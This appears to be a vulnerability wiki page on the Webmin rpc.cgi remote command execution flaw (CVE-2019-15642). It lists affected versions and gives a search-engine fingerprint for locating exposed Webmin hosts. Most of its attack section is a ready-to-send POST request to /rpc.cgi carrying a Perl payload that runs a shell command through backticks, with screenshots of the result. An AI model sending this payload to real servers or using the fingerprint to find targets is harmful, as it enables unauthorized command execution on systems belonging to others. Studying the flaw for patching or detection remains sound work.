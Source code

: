 # Webmin rpc.cgi background remote command execution vulnerability CVE-2019-15642

## Vulnerability Description

Webmin is a set of Web-based system management tools for Unix-like operating systems.
There is a security vulnerability in the rpc.cgi file in Webmin 1.920 and previous versions. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Webmin < 1.920</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="webmin"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827185020021.png)

Send request packet after login

```php
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1661594728166-0b339795-35a4-48c7-9158-5e1f4ac9ca6e.png)